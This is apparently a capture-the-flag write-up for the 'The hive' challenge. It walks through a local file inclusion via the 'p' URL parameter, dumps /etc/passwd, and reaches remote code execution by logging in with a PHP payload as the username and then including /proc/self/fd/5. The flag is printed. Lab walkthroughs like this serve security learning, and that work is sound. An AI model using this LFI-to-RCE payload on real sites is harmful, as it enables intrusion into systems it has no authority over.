

# CTF2020 - Cube Apocalypse Quali: The hive

  
  


## Description


## Attached files
- 

## Flag
```
cyber_N!c3phpS3ss0nsRCE
```

## Detailed solution
After clicking on the link I saw a website with the following url, containing an input field for username and password:

`http://hive.codectf.localos.io/a09c5a7196da3144bbb241967d6073f7/?p=includes/login_form.php`

As you can see, we have control over the 'p' parameter to include anything we want. So Local File Inclusion is possible.

I checked that by including '/etc/passwd' which gave me all the users on the system:

`root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System 
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
php-fpm:x:1000:1000::/home/php-fpm:/usr/sbin/nologin`


As you can see, there is a service user account called 'php-fpm'. That is strange, because a service does not need that normally.

We keep that in mind.

After finding that, I tried to find something, that we can use for Remote Code Execution. Found out, that 

`/proc/self/fd/5`

was showing the username, that was put in the login box. So there is our way in.

I tried to login with the following username:

`<?php $content="<?php var_dump(scandir('/home/php-fpm')); ?>";file_put_contents("/home/php-fpm/foo.txt", $content); ?>`

This gave me a file in the php-fpm users home, that held all the files in that directory, after visiting the '/proc/self/fd/5' page again.

Unsurprisingly there was a file called flag... Could have thought about that directly after finding the services home directory... Lesson learned :)